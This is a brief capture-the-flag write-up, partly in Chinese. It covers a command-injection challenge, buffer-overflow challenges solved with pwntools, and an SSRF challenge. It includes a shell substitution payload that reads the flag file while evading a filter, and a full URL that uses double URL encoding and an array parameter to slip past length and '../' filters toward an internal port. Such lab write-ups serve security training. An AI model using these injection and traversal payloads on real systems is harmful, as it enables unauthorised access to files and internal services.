 # isc.taiwan-te.ch
## ls
```bash
$(echo > /tmp/$(tail /$(echo fl)$(echo ag)); echo /tmp)
```


## pwns
  - pwntools
  - bof
  - bof2
  - ret2sc
  see github source code 
  避免分散發出封包
  `context.log_level ='debug'`

## jssrf
1. [see source code](http://140.118.126.237:8889/source)
2. 本網頁透過`3000`作為公開端口，並且透過該端口接收api，之後過濾輸入內容之後傳到內部端口`3333`。
3. 過濾器`限制長度`與`../`，前者透過path[]繞過，後者透過兩次編碼繞過
4. 得到flag的emoji，一樣兩次編碼繞過第二個過濾器得出結果
5. [get flag](http://140.118.126.237:8889/?path[]=.%252e/flag?tok%25%36%35n=SUP3R_S3CR3T_T0K3N)
